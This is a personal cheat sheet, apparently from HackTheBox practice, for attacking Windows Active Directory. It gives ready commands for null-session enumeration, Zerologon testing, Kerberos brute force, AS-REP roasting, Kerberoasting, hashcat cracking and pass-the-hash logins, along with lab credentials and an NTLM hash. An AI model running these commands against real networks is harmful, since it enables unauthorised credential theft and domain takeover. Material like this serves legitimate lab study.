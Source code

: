 ## WITHOUT USER

1.  Check [[RPC (135)]] null session:

```
    rpcclient <<IP>>
    rpcclient -U "" -N <<IP>>
```

2. Check [[SMB (139, 445)]] null session:

```
   
    crackmapexec smb {IP} --pass-pol -u "guest" -p ""
    
    smbmap -H {IP} -u null -p null
    smbmap -H {IP} -u guest
    
    smbclient -N -L //{IP}
    smbclient -N //{IP}/ --option="client min protocol"=LANMAN1
    
```

**!!NOTA IMPORTANTE!!** 
* Con la opción `--shares` para listar los directorios compartidos.

* Si queremos que continue sin que se pare en el primer éxito: `--continue-on-success`

**!!NOTA IMPORTANTE!!**  Buscar vulnerabilidades asociadas a SMB sobre todo si son equipos antiguos (EternalBlue)

3. Check [[LDAP (389, 636)]] to obtain interesting information (null credential):

```
ldapsearch -x -H ldap://<IP> -D '' -w '' -b "DC=<1_SUBDOMAIN>,DC=<TLD>"
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "DC=<1_SUBDOMAIN>,DC=<TLD>"
# or
./windapsearch.py -U --full --dc-ip <<IP>>

# or
crackmapexec ldap {IP} --pass-pol -u "" -p ""
```

4. Test [[ZEROLOGON]]

```
#En el virtual env que se encuentra en /home/kali/VENV/zerologon
source venv/bin/activate

python3 zerologon_tester.py MULTIMASTER 10.10.10.179 <DC NAME (Netbios)> <IP>
```

5.  [[BRUTE FORCE]] (Kerberos)

	* Herramienta: /home/kali/kerbrute/dist/kerbrute_linux_amd64

```
/home/kali/htb/intelligence/enumeration/kerbrute/dist/kerbrute_linux_amd64  userenum --dc <<IP DC>> -d <<DOMUNIO>> <<Lista de usuarios>> 

#Diccionario para enumerar usuarios -> /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt
```

**!!NOTA IMPORTANTE!!** Aunque **Kerbrute nos de un hash de los usuarios ASEREPROASTEABLES** probar con impacket-GetNPUser con el usuario por que nos puede dar otro distinto. En algun ejemplo no me ha funcionado el hash que da Kerbrute.

6. Test otros servicios comunes: ssh, http, ftp, etc --> [[ENUMERATION CHECKLIST]]

7. NTLM RELAY + RESPONDER

## WITH USER

1. [[BRUTE FORCE]] (Kerberos)

	* Herramienta: /home/kali/kerbrute/dist/kerbrute_linux_amd64

```
/home/kali/htb/intelligence/enumeration/kerbrute/dist/kerbrute_linux_amd64  userenum --dc <<IP DC>> -d <<DOMUNIO>> <<Lista de usuarios>> 

#Si no encuentras nada prueba a aplicar fuerza bruta con el parametro bruteforce (pruebas los usuarios también como contraseñas)
```

**!!NOTA IMPORTANTE!!** Aunque **Kerbrute nos de un hash de los usuarios ASEREPROASTEABLES** probar con impacket-GetNPUser con el usuario por que nos puede dar otro distinto. En algun ejemplo no me ha funcionado el hash que da Kerbrute.

2. [[ASREPROAST]] (se le pasan usuarios sin contraseñas)

```
impacket-GetNPUsers -dc-ip 10.10.10.192 -no-pass -usersfile usuarios-kerberos.txt blackfield.local/
```

Si tenemos un usuario y una pass tambien podemos usar tambien ASEREPROAST para obener el ticket de otros usuarios (SIGUIENTE APARTADO)

Mejor comando ASREP:

````
impacket-GetNPUsers active.htb/SVC_TGS:GPPstillStandingStrong2k18 -request -format john -outputfile hash
````

IMPORTANTE Para crackear la pass utilizar el siguiente comando:

```
sudo hashcat -m 18200 hashes.asreproast2 /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --forc
```

Smbclient --> smbclient -U BLACKFIELD.local/support //10.10.10.192/NETLOGON 

Otros kerberos
## WITH USER AND PASS

1. [[WINRM]]

```
#Con usuario y contraseña:
evil-winrm -i <<IP>> -u <<usuario>> -p <<contraseña>>
#Ejm PTT
evil-winrm -i 10.10.10.192 -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d
```

2.  Check [[SMB (139, 445)]] y comprueba si es vulnerable a PSEXEC

2. Check [[SMB (139, 445)]] y compruebas los recursos compartidos del usuario y si es vulenrable a PSEXEC (crackmapexec).

```
# Puedes checkearlo con crackmapexec y conectarte al recurso susando smb
smbclient -U <<DOMINIO>>/<<USUARIO>> //<<ip>>/<<RECURSO COMPARTIDO>>
# Ejemplo:
smbclient -U BLACKFIELD.local/support //10.10.10.192/NETLOGON
```

4. Comprueba el RDP (3389) -> Crackmapexec suele fallar

Manualmente:

```
xfreerdp  +compression +clipboard /dynamic-resolution +toggle-fullscreen /cert-ignore /bpp:8  /u:stephanie /v:192.168.201.75
```

6. [[PASSWORD SPRAY]]

7. [[KERBEROASTING]]

```
impacket-GetUserSPNs <<domain name>>/<<username>>:<<password>> -outputfile <<krbroast>>
```

**!!NOTA IMPORTANTE!!** SI NOS DA ESTE ERROR --> TENEMOS QUE SINCRONIZARNOS

![[Pasted image 20230525200042.png]]

```
 ntpdate <IP of DC>
```

6. SI TENEMOS ACCESO COMPROBAR HISTORIAL DE USUARIO O MIARLO EN WINPEAS

```
(Get-PSReadlineOption).HistorySavePath
```

![[Pasted image 20230611154748.png]]
 5. GOLDEN/SILVER TICKETS

8. Vuelve a comprobar todo lo anterior pero con usuario y contraseña: rpc, smb, etc.

![[Pasted image 20230218131515.png]]
